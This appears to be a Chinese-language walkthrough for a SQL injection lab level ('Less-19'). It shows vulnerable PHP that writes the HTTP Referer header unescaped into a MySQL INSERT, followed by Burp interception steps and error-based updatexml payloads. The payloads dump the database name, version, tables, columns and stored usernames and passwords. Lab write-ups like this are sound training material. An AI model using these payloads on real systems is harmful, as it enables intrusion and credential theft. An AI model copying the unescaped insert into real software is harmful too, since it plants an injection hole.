

# Less-19  基于头部的RefererPOST报错注入

  分析查看源码
```php
$uagent = $_SERVER['HTTP_REFERER'];
$insert="INSERT INTO `security`.`referers` VALUES ('$uagent', ...)";
```
与第十九关一样，只是注入点从User-Agent换成了Refer

## burp抓包
提交表单后拦截请求，找到 `Referer:` 头改成 **payload**：
## payload
```sql
# 爆数据库名
Referer: 1' and updatexml(1,concat(0x7e,(database())),1) and '1'='1

# 爆版本
Referer: 1' and updatexml(1,concat(0x7e,version()),1) and '1'='1

# 爆表
Referer: 1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) and '1'='1

# 爆字段
Referer: 1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')),1) and '1'='1

# 爆数据
Referer: 1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)),1) and '1'='1
```
